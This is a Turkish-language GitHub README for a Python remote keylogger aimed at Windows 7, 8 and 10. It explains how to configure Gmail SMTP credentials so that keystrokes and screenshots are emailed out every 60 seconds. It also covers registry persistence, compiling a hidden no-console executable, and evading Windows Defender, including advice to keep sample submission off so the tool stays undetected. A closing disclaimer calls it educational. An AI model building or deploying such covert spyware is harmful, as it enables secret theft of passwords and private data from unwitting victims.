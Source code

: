 # Gngr_remote_keylogger
(On 09/04/2021) Remote Keylogger software has been made for the latest up-to-date "Windows 7, 8 and 10" operating systems. It managed to circumvent the "Windows Defender" program.

(Windows 7, 8 ve 10 gibi) Güncel Windows işletim sistemlerinde çalışan ve Defender gibi güvenlik programlarına yakalanmayan "Remote keylogger" programı yazılması hedeflenmiştir. 09/04/2021 tarihi itibarıyla gerçekleştirilmiştir. Güncellemelerle beraber zamanla bu durum değişebilir.

Kaynak kodun derlenmiş çalışır hali ile ilgili video https://www.youtube.com/watch?v=7zq-eTPeRbY adresinden izlenebilir.



Gereksinimler
---------------
1) Gerekli kütüphaneler: PyWin32, pynput, pyautogui, pyinstaller

Yüklemek için;

>> pip install PyWin32

>> pip install pyautogui

>> pip install pyinstaller

"pyinstaller" kodu tek parça çalıştırılabilir dosya haline getirmek için kullanılacak


2) Ayrıca kullanılacak e-mail adresinin smtp protocol ayarlarının yapılması, çalışıp çalışmadığının kontrol edilmesi gereklidir. E-maillin çalışma kontrolü https://github.com/abdulkadir-gungor/python_smtp adresindeki python scripti ile yapılabilir.


Örnek olması açısından Gmail için şu ayarların yapılması gereklidir.

[A]

![n1](https://user-images.githubusercontent.com/71177413/114177831-877f6b80-9945-11eb-9dda-0734fa49f057.JPG)


[B]

![n2](https://user-images.githubusercontent.com/71177413/114177861-9108d380-9945-11eb-9c95-f27bc86eb56f.JPG)


[C]

![n3](https://user-images.githubusercontent.com/71177413/114177893-9e25c280-9945-11eb-88e9-3221d73fc9f5.JPG)


[D]

![n6](https://user-images.githubusercontent.com/71177413/114177969-b8f83700-9945-11eb-8ff9-07cc04f1db11.JPG)


Kaynak Kod
---------------
Keylogger kodlanırken "Python 3.8.5" kullanıldı. Program çalışırken; klavye log kayıtlarını ve ekran görüntülerini girilen e-mail adresine
ayarlanan zaman aralıklarında (varsayılan 60 sn bir) gönderilmektedir.

keylogger.py ==> Hem ekran görüntüsünü hem de klavyedeki basılan tuşları 1 dk arayla girilen e-mail adresine gönderir. Ana derlenecek kaynak dosyası budur.

SMTP_Email.py ==> Email göndermek için kullanılacak sınıfları içerir.


Kaynak Kod Ayarları
---------------------
"keylogger.py" dosyasında 105. ve 110. satırlar arasında bulunan değişkenler, gerekli şekilde ayarlanmalıdır.
    
    SEND_MAIL_SECOND = 60                           # Gönderilecek e-mail süre aralığı, (varsayılan 60 sn)
    SMTP_ADDR = 'smtp.gmail.com'                    # SMTP Adresi
    PORT = 587                                      # SMTP Protokolunun portu
    SENDER = 'sender.test.gungor.abc@gmail.com'     # SMTP protokol ayarları yapılmış, kontrol edilmiş e-mail adresi
    PASSWORD = 'q123aSd456z'                        # SMTP ayarları yapılmış e-mail adresinin şifresi
    MAIL_TO = 'receiver.test.gungor.abc@gmail.com'  # E-mail gönderilecek adres (SMTP ayarları yapılmış olan e-mail olabileceği gibi farklı e-mail adresi de yazılabilir.)
    
![n5](https://user-images.githubusercontent.com/71177413/114186529-a3880a80-994f-11eb-9d78-76f6d8f8774a.JPG)


    
Önemli Notlar
---------------
"pynput" gibi hazır kütüphane kullanılmamıştır. Tarafımdan klavye fonksiyonu yazılmıştır. Klavye fonksiyonu, "Türkçe Q Klavye"ye göre yazılmıştır. Eğer herhangi farklılık yaşamanız durumda ilgili klavye fonksiyonundan düzeltebilirsiniz. Detaylı bilgi için "https://docs.microsoft.com/tr-tr/dotnet/api/system.windows.forms.keys?view=net-5.0" adresine bakınız.

Kalıcılık için regedit girdisi kullanılmış olup, "wmic service" gibi daha agresif methodlar kullanılmamıştır. Farklı amaçlarla kullanılmaması için özellikle regedit kullanılmış olup, program "remote keylogger" olacak şekilde dizayn edilmiştir.


Kaynak Kodu Derlemek İçin
----------------------------
>>pyinstaller --onefile --noconsole --icon=keyboard.ico keylogger.py

Aşağıda PyCharm programı üzerinde nasıl derlendiği resim olarak gösterilmektedir.

[1] Derleme işlemi

![n1](https://user-images.githubusercontent.com/71177413/114182010-d8459300-994a-11eb-826e-ae197934a8f5.JPG)


[2 - Kaynak Kodun Derlenmiş Hali] Oluşturulan dist klasörü içerisinde kaynak kodun derlenmiş hali bulunur.

![n3](https://user-images.githubusercontent.com/71177413/114182071-e72c4580-994a-11eb-8855-f19eb20b001e.JPG)


Keylogger Yazılımını, Sanal ve Gerçek İşletim Sistemlerinde Deneme
----------------------------------------------------------------------------
Windows 7, 8 , 10 işletim sistemlerinde sorunsuz şekilde çalıştı. Özellikle tüm güncelleştirmeleri yapılmış işletim sistemleri seçildi. Ayrıca Defender ve Virüs tarama programı bulunan cihazlarda sorunsuz çalıştığı gözlemlendi.


[1]

![a1](https://user-images.githubusercontent.com/71177413/114182924-e8aa3d80-994b-11eb-8b4b-bcd7f5535d40.jpg)


[2]

![a2](https://user-images.githubusercontent.com/71177413/114183040-feb7fe00-994b-11eb-98b7-59441454e24b.jpg)


[3]

![a3](https://user-images.githubusercontent.com/71177413/114183095-05df0c00-994c-11eb-9fc0-7953b57b892b.jpg)


[4]

![a4](https://user-images.githubusercontent.com/71177413/114183136-0c6d8380-994c-11eb-80ac-a7c8859acc76.jpg)


[5]

![a5](https://user-images.githubusercontent.com/71177413/114183206-18594580-994c-11eb-85fa-50e0690dbd9c.jpg)


Windows Defender İle Taratılma Sonucu
----------------------------------------------
Programın çalışması sırasında herhangi bir uyarı ile karşılaşılmadı. İlgili programın konumu gösterilerek, özellikle güncel Windows Defender ile taratılmıştır. "09/04/2021" tarihi itibarıyla Defender programı herhangi bir uyarı vermemiştir. Güncellemelerle beraber zamanla bu durum değişebilir. 

Özellikle Defender ayarlarında örnek numune gönderme kapalıdır. Defender imzasız olan ve sistem kaynaklarına erişen (zararlı olsun ya da olmasın) tüm yazılımları merkeze gönderir. Eğer bu ayar açık olursa keylogger veritabanına kayıt edilerek 1 ya da 2 hafta içerisinde yakalanmaya ya da uyarı vermeye başlar.


[1]

![a8](https://user-images.githubusercontent.com/71177413/114183799-bd741e00-994c-11eb-8de4-210d530ce5ea.jpg)


[2]

![a9](https://user-images.githubusercontent.com/71177413/114184174-33788500-994d-11eb-9ee4-3408a906d13f.jpg)


[3]

![a6](https://user-images.githubusercontent.com/71177413/114184404-75a1c680-994d-11eb-9ff6-6f57114d46f7.jpg)


[4]

![a7](https://user-images.githubusercontent.com/71177413/114184348-66227d80-994d-11eb-83ce-51c56b5185c8.jpg)


Yasal Uyarı
----------------
Eğitim amacıyla hazırlanmıştır. 

Kullanıcıların bazı kullanım şekilleri suça sebep olabilir.

Olumsuz durumlarla karşılaşmamak için "Yasal_Uyarı.txt" dosyasını okuyunuz.

